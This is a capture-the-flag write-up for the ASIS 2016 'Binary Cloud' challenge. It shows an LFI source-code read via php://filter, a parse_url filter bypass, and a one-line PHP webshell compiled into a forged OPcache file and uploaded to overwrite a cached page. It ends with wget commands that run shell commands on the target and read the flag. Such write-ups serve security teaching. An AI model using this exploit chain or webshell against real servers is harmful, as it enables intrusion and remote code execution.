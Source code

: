 ```yaml
---
layout: post
title: Binary Cloud
category: ASIS 2016
---
```


You can upload anything you want! (But please, do not inject php files.)
Due to the security issues, you can only upload one file per request.
Note that the server removes all uploaded/cached files every minute.

Regards,
ASIS Team.

---

#### The Challenge

This was a very fun challenge for me, as it was based off my own [research](http://blog.gosecure.ca/2016/04/27/binary-webshell-through-opcache-in-php-7/).

**1. Information Gathering**

I started things off by looking for a `robots.txt` file.

Going to `https://binarycloud.asis-ctf.ir/robots.txt` shows us three entries :

![robots](/assets/img/asis-2016/robots.png){:width="200"}

Visiting the `/cache` and `/uploads` pages show us a `forbidden` message.
On the other hand, following the link `/debug.php` gives us a `phpinfo()` page!

![phpinfo](/assets/img/asis-2016/phpinfo.png)

From this page, we know that they're running PHP 7.0.4.

As the description and `robots.txt` mentionned cache files, I checked if OPcache is enabled. Turns out it is, and its location corresponds to the `/cache` folder found in the robots.txt file :

``` ini
opcache.file_cache=/home/binarycloud/www/cache
```
**2. Obtaining the Source Code**

Looking at the URLs, we can notice right away a potential LFI vulnerability, as the upload module URL looks like the following :

```
https://binarycloud.asis-ctf.ir/?page=upload
```

We can use [PHP wrappers](http://php.net/manual/en/wrappers.php.php) to obtain the source code :

```
http://binarycloud.asis-ctf.ir?page=php://filter/convert.base64-encode/resource=upload
```

Viewing the source of the URL above will give us the `base64` encoded source code :

![base64](/assets/img/asis-2016/base64.png)

This is a section of the `upload.php` script :

``` php
<?php
function ew($haystack, $needle) {
    return $needle === "" || (($temp = strlen($haystack) - strlen($needle)) &gt;= 0 &amp;&amp; strpos($haystack, $needle, $temp) !== false);
}

function filter_directory(){
  $data = parse_url($_SERVER['REQUEST_URI']);
  $filter = ["cache", "binarycloud"];
  foreach($filter as $f){
    if(preg_match("/".$f."/i", $data['query'])){
      die("Attack Detected");
    }
  }
}

function error($msg){
  die("&lt;script&gt;alert('$msg');history.go(-1);&lt;/script&gt;");
}

filter_directory();

if($_SERVER['QUERY_STRING'] &amp;&amp; $_FILES['file']['name']){
  if(!file_exists($_SERVER['QUERY_STRING'])) error("error3");
  $name = preg_replace("/[^a-zA-Z0-9\.]/", "", basename($_FILES['file']['name']));
        if(ew($name, ".php")) error("error");
  $filename = $_SERVER['QUERY_STRING'] . "/" . $name;
  if(file_exists($filename)) error("exists");
  if (move_uploaded_file($_FILES['file']['tmp_name'], $filename)){
    die("uploaded at &lt;a href=$filename&gt;$filename&lt;/a&gt;&lt;hr&gt;&lt;a href='javascript:history.go(-1);'&gt;Back&lt;/a&gt;");
  }else{
    error("error");
  }
}
?>
```

From this code, we know that :

  - We can't upload `.php` files.
  - Our request URI must not contain the strings `cache` or `binarycloud`.
  - Our filename is filtered through `preg_replace()` and `basename()`.

Since we can't upload `.php` files, the goal will most likely be to inject `.php.bin` files in the `/cache` folder so we can run our own code.

**3. Bypass filter_directory()**

The upload module takes the query string of our POST request and uses it as the destination folder for our file.

Sending a POST request at `/upload.php?TEST` will try to upload our file in the `TEST/` folder.

Since we want upload in the `cache/` folder, we need to send our POST request to `/upload.php?cache`.
The problem here is that `filter_directory` will block us from using the `cache` keyword :

``` php
<?php
function filter_directory(){
  $data = parse_url($_SERVER['REQUEST_URI']);
  $filter = ["cache", "binarycloud"];
  foreach($filter as $f){
    if(preg_match("/".$f."/i", $data['query'])){
      die("Attack Detected");
    }
  }
}
?>
```

This function can be bypassed though, as `parse_url` takes a `URL` as a parameter. It does not deal well with `URIs`.

Sending a request to `///upload.php?cache` (note the additional slashes) will make `parse_url()` interpret the `URI` as a malformed `URL` and will return `false`. Therefore, `preg_match()` will never match the filtered strings.

**4. Creating our Payload**


As we've mentionned earlier, the challenge uses OPcache as their caching engine.

Our goal is to override the cache file of either `debug.php`, `index.php` or `upload.php`, so that when we'll request those pages, the webserver will serve up our malicious cache file instead of the original content.

We'll need my tools on [github](https://github.com/GoSecure/php7-opcache-override).

From the `debug.php` page, we know that it's an x86_64 platform. I deployed a 64 bit Ubuntu VM with PHP 7 installed and I generated a cache file named `debug.php.bin`.

The generated cache file is a compiled version of the following webshell :

``` php
<?php
  system($_GET['cmd']);
?>
```

I then calculated the `system_id` used by our target webserver by using the `system_id_scraper.py` script found in my github repo :

``` shell
$ ./system_id_scraper.py https://binarycloud.asis-ctf.ir/debug.php
PHP version : 7.0.4-7ubuntu2
Zend Extension ID : API320151012,NTS
Zend Bin ID : BIN_SIZEOF_CHAR48888
Assuming x86_64 architecture
------------
System ID : 81d80d78c6ef96b89afaadc7ffc5d7ea
```

Finally, I changed the `system_id` of `debug.php.bin` with the one of the server using a hex editor.

The resulting `debug.php.bin` is a compiled version of a webshell configured to be used by the server's OPcache.

**5. Finale**

Finally, it's time to send our payload.

I uploaded the `debug.php.bin` file and intercepted it with Burpsuite. At this point, we have to set the path of the server-side `debug.php.bin` that we want to overwrite.

The path of the current `debug.php.bin` is at `[cache location][system id][document root][debug.php.bin]`. The only thing missing is the document root, which is available in the `/debug.php` page.

We also need to add the extra slashes to bypass the `filter_directory()` function.

Here's my payload :

![payload](/assets/img/asis-2016/payload.png)

Now, when we navigate to `https://binarycloud.asis-ctf.ir/debug.php`, we have our webshell!

The flag is located at the root of the filesystem :

``` shell
$ wget -qO- https://binarycloud.asis-ctf.ir/debug.php?cmd="ls /"
WH4T_1S_7H3_FL4G
bin
boot
dev
etc
home
initrd.img
initrd.img.old
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
```
``` shell
$ wget -qO- https://binarycloud.asis-ctf.ir/debug.php?cmd="cat /WH4T_1S_7H3_FL4G"
ASIS{5e00f204374f9ce481acc97294eda1f0}
```

**Flag :** ASIS{5e00f204374f9ce481acc97294eda1f0}
